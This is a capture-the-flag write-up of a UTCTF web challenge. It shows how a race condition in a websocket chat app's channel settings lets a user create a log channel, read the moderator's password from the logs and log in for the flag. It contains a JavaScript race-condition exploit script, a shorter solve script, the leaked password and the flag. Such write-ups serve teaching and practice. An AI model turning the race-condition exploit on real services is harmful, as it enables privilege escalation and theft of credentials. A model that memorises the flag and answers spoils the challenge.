


> This challenge was solved by `thehackerscrew` and was not solved by me, I post-solved it on my own with some information from there channels during the CTF!

This is a sourceless web, I start by visiting the application:


I register as the user `sealldev` and then run `/help` as advised in the challenge description:


### Initial Observations

Let's do a feature breakdown of the application:
- It's a basic messaging app, and it communicates over websockets.
- It has channels with some varying permissions, the `mod-info` and `log` channels are restricted to admin users.
- Out of the commands listed a few catch my eye:
    - `/nick` could be used to trick the application into thinking I'm another user?
    - `/create` to make new channels?
    - `/set` to change settings? Maybe we can make a channel like `log` or `mod-info` non-admin?
    - `/login` is probably our end goal!

Also of note, every 2 minutes an announcement is sent (presumably with `/announcement`) by the moderator:


We also know the username of the moderator `0000moderator`.



Running `/user 0000moderator` we get the following information:
```
User '0000moderator':
- name: moderator
- privileges: Privileges(CHANNEL_CREATE | CHANNEL_DELETE | MESSAGE_SEND | USER_KICK | CHANNEL_MODIFY | ANNOUNCE | FLAG_MODERATOR)
- created: 2025-03-01T00:00:00Z[Etc/Unknown]
- banned: N/A
- style: "& .username { background: #3AE; color: white; font-weight: bold; }"
```

### Potential Attacks
Considering an announcement is sent every 2 minutes by the moderator, and we seem to need to be the moderator/admin user:
- XSS, seems weird to do on a shared instance so maybe intended to do on your own channel? Usually likely with bot users.
- Authentication Bypass with something related to `/nick` (seems unlikely)
- Messing with the weird `style` attribute users have
- Some way to leak the moderator password by getting access to the `log`, maybe privilege escalation?
- Something else?

### Fiddling
I start by making my own channel with `/create testchannel`


Now that we are away from the mess of everyone else's testing (it was a shared instance), let's try out `/nick`.

I try for a while with setting my `/nick` I found that it was no use... I tried with XSS, and a few other injections but made no progress. It seems that XSS is a red herring as told by the orgs at the 8 hour mark:
> It's not the XSS, that's a red herring.
> All of the initial channels (general, mod-info, and log) are important.

So no more XSS...

**Potential Attacks**
- ~~XSS, seems weird to do on a shared instance so maybe intended to do on your own channel? Usually likely with bot users.~~
- ~~Authentication Bypass with something related to `/nick` (seems unlikely)~~
- Messing with the weird `style` attribute users have
- Some way to leak the moderator password by getting access to the `log`, maybe privilege escalation?
- Something else?

Let's try out `/set` instead, I try executing it by itself:
```
Available property groups: channel, user
```

Looking at `/set user` we get the following properties:
```
Available user properties: .name, .style
```

Maybe we can `/set` our `user.name` to trick the authentication? I execute `/set user.name 0000moderator` and try to visit `mod-info`:
```
Channel 'mod-info' is admin-only.
```

Hm, maybe we can `/announce` now?
```
You do not have permission to send announcements.
```

Nothing...

### SCSS

Let's look at the `style` attribute, I asked an LLM to identify what kind of CSS format this is because of the strange `&` at the start.
> This is SCSS (Sassy CSS) or Sass syntax, which is a preprocessor scripting language that's interpreted into CSS. The & symbol at the start is a special character in SCSS/Sass that represents the parent selector.

Perhaps there are some vulnerabilities with it?

We can control our `user.style`, let's start by trying to copy the moderator one: `& .username { background: #3AE; color: white; font-weight: bold; }`.
I run `/set user.style "& .username { background: #3AE; color: white; font-weight: bold; }"` and:


Seems to work!

There wasn't a huge push to look into this attack, we attempted to use CSS to exfiltrate some data via a webhook but eventually decided to move along to another idea.

### Privilege Escalation

Looking at `/set channel`, we have a lot more properties:
```
Available channel properties: .description, .slowmode, .hidden, .immutable, .owner, .admin-only, .mode
```
Catching my eye is `owner` and `mode`, let's start with `owner` in our channel.
```
Updated property 'channel.owner'
```

Can we update the owner of `general`?
```
Cannot change properties of an immutable channel
```

And trying to change it with `/set channel.immutable`:
```
Only the channel owner or an admin can change the immutability of a channel
```

Ok, seems like mostly a dead end... Let's check out `mode`!
```
Invalid channel mode. Valid modes: 'normal', 'log'
```

Interesting, we can make a `log` channel!

Trying with `/set channel.mode log` we get:
```
Log channels must be hidden and admin-only.
```

Ok... Now this could be interesting! Let's start by making it hidden with `/set channel.hidden`:
```
provided string was not `true` or `false`
```

Try again with `/set channel.hidden true`...
```
Updated property 'channel.hidden'
```

We now no longer appear in the sidebar! Now I try to `/set channel.admin-only true`:
```
Updated property 'channel.admin-only'
Connection closed.
```

Wait, so can we `/join` our channel back?
```
Channel 'testchannel' is admin-only.
```

Interesting...

### Race Condition

Could we privilege escalate with a race condition to make a log channel? If we could:
1. Create a channel with `/create <channel>`
2. Make it hidden with `/set channel.hidden true`
3. Try and race condition with:
    - `/set channel.admin-only true`
    - `/set channel.mode log`
    - `/set channel.admin-only false`
    - At the same time?
4. Profit?

```js
(async () => {
  // Create a single WebSocket connection
  const socket = new WebSocket('ws://challenge.utctf.live:5213/socket');
  
  // Generate a unique channel name
  const channelName = 'exploit_' + Math.random().toString(36).substring(2, 10);
  
  // Setup message handler to see responses
  socket.onmessage = (event) => {
    console.log('Response:', event.data);
  };
  
  socket.onerror = (error) => {
    console.error('WebSocket Error:', error);
  };
  
  // Wait for connection to open
  await new Promise(resolve => {
    if (socket.readyState === WebSocket.OPEN) {
      resolve();
    } else {
      socket.addEventListener('open', resolve, { once: true });
    }
  });
  
  console.log('WebSocket connected. Executing steps...');
  
  try {
    // Step 1: Create channel
    socket.send(`/create ${channelName}`);
    await new Promise(resolve => setTimeout(resolve, 300));
    
    // Step 2: Join channel
    socket.send(`/join ${channelName}`);
    await new Promise(resolve => setTimeout(resolve, 300));
    
    // Step 3: Make channel hidden
    socket.send(`/set channel.hidden true`);
    await new Promise(resolve => setTimeout(resolve, 300));
    
    console.log(`Starting race condition on channel: ${channelName}`);
    
    // Execute the race condition exploit - send commands in rapid succession
    // No delay between them to maximize race condition chance
    socket.send(`/set channel.admin-only true`);
    socket.send(`/set channel.mode log`);
    socket.send(`/set channel.admin-only false`);
    
    console.log("Race condition attempt executed!");
  } catch (error) {
    console.error("Error:", error);
  }
})();
```

> This script was made by [ClovisMint](https://www.linkedin.com/in/kbettridge/), and was solver!

After a few tries with the script: 
```
Starting race condition on channel: exploit_udmq9wev
...
Race condition attempt executed!
```

I try to `/join exploit_udmq9wev`:
```
Switched to channel 'exploit_udmq9wev'
```

We can now see all the logs of every command executed by any user!

Eventually the moderator log's in and we get the following:


We can now `/login unbroken-sandpit-scant-unmixable` to the moderator:
```
Correct; logging in as moderator.
```

I try to visit `mod-info` and we successfully switch!
```
Switched to channel 'mod-info'
```

I run `/channel` to view the channel information:
```
Channel 'mod-info':
- description: Congradulations on becoming a moderator!  The flag is utflag{32c6FLiaX5in9MhkPNDeYBUY}.
- slowmode: 0.05
- hidden: false
- immutable: true
- owner: 0000000000000
- current users: 1
- admin-only: false
- mod-only: true
- mode: normal
```

Flag: `utflag{32c6FLiaX5in9MhkPNDeYBUY}`

### Better Code

This was also shared in the Discord server after the CTF ended as a more efficient solve script:
```js
await websocket.send_str('/create newlog')
await websocket.send_str('/join newlog')
await websocket.send_str('/set channel.hidden true')
await websocket.send_str('/set channel.admin-only true')
await websocket.send_str('/set channel.mode log')
await websocket.send_str('/set channel.admin-only false')
```

Much cleaner!